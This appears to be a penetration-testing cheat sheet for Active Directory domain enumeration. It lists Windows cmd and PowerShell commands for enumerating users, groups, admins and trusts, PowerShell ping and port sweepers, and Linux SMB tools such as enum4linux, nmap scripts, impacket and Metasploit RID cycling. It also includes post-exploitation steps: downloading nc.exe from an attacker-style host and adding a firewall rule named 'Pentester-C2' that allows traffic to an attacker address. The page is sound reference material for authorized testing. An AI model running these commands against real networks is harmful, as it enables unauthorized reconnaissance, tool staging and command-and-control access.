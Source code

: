 # Domain Enumeration

## Command Tools (cmd.exe)

Display Networking Info
```CMD
ipconfig /all
```
Display Domain
```CMD
echo %USERDOMAIN%
    net config workstation/server
```
Display Domain Logon Server
```CMD
echo %logonserver%
```
Display Domain Password Policy
```CMD
net accounts /domain
```
Display DC Address, Domain Name, Roles
```CMD
wmic ntdomain
```
Display All Domain Users
```CMD
wmic /NAMESPACE:\\root\directory\ldap PATH ds_user GET ds_samaccountname
```
Display All Domain Groups
```CMD
wmic /NAMESPACE:\\root\directory\ldap PATH ds_group GET ds_samaccountname
```
Display All Domain Computers
```CMD
wmic /NAMESPACE:\\root\directory\ldap PATH ds_computer GET ds_samaccountname
```
View Domain User Info
```CMD
net user /domain
 net user pentestuser /domain
```
Display Domain Admin Users
```CMD
net group “Domain Admins” /domain
```
View All Hosts in Domain/Workgroup
```CMD
net view
```
Display Network Shares
```CMD
net share
```
Display Domain Trust Info
```CMD
nltest
 nltest /finduser:sweppler
 nltest /dclist:mydomain
 nltest /trusted_domains
```

## PowerShell Tools

Ping Sweeper
```PowerShell
 1..255 | % {echo "192.168.1.$_"; ping -n 1 -w 100 192.168.1.$_ | Select-String ttl}
```
Port Sweeper
```PowerShell
1..1024 | % {echo ((new-object Net.Sockets.TcpClient).Connect("<IPADDR>", $_)) "Port $_ is open!"} 2>$null
```
Sweep Range of IPs for Single Port
```PowerShell
foreach ($ip in 1..20) {Test-NetConnection -Port 80 -InformationLevel "Detailed" 192.168.1.$ip}
```
Sweep IPs and Ports
```PowerShell
1..20 | % { $a = $_; 1..1024 | % {echo ((new-object Net.Sockets.TcpClient).Connect("10.0.0.$a",$_)) "Port $_ is open!"} 2>$null}
```
Test Egress Filtering
```PowerShell
1..1024 | % {echo ((new-object Net.Sockets.TcpClient).Connect("allports.exposed",$_)) "Port $_ is open" } 2>$null
```
Display Domain Admins
```PowerShell
([adsisearcher]"(&(objectClass=User)(admincount=1))").FindAll().Properties.samaccountname
```
Web Client to Download Files (eg NetCat)
```PowerShell
wget "http://10.10.10.10/nc.exe" -outfile "c:\nc.exe"
```
Get Firewall Rules
```PowerShell
Get-NetFirewallRule -all | Out-GridView
 Get-NetFirewallRule -all | Export-csv <file_path.csv>
```
Add Firewall Rule
```PowerShell
New-NetFirewallRule -Action Allow -DisplayName Pentester-C2 -RemoteAddress <IPADDR>
```

 ## Linux/Kali Tools

 SMB Enumeration Tools
 ```bash
nmblookup -A target
smbclient //MOUNT/share -I target -N
rpcclient -U "" target
enum4linux target
```

Discover Windows / Samba servers on subnet, finds Windows MAC addresses, netbios name and discover client workgroup / domain
```bash
nbtscan 192.168.1.0/24
```

Do Everything, runs all options (find windows client domain / workgroup) apart from dictionary based share name guessing
```bash
enum4linux -a target-ip
```

Fingerprint SMB Version
```bash
smbclient -L //192.168.1.100 
```

Find open SMB Shares in Nmap
```bash
nmap -T4 -v -oA shares --script smb-enum-shares --script-args smbuser=username,smbpass=password -p445 192.168.1.0/24   
```

Enumerate SMB Users in Nmap
```bash
nmap -sU -sS --script=smb-enum-users -p U:137,T:139 192.168.11.200-254 
```


Enumerate SMB Using Samrdump Python Impacket

```bash
python /usr/share/doc/python-impacket-doc/examples
/samrdump.py 192.168.XXX.XXX
```


ridenum.py 192.168.XXX.XXX 500 50000 dict.txt
https://github.com/trustedsec/ridenum


Metasploit RID Cycling

```bash
use auxiliary/scanner/smb/smb_lookupsid
```

https://github.com/SecureAuthCorp/impacket

https://www.hackingarticles.in/impacket-guide-smb-msrpc/

 https://www.sans.org/blog/pen-test-poster-white-board-powershell-built-in-port-scanner/

## Domain Enumeration Resources

* Information dumper via LDAP: https://github.com/dirkjanm/ldapdomaindump
* Integrated DNS dumping by any authenticated user: https://github.com/dirkjanm/adidnsdump
* Advanced Discovery of Privileged Accounts: https://github.com/cyberark/ACLight
* Detailed Active Directory Recon Tool: https://github.com/sense-of-security/ADRecon
* Powershell AD Enumeration: https://www.exploit-db.com/docs/english/46990-active-directory-enumeration-with-powershell.pdf
* Data collector tool: https://bloodhound.readthedocs.io/en/latest/data-collection/sharphound.html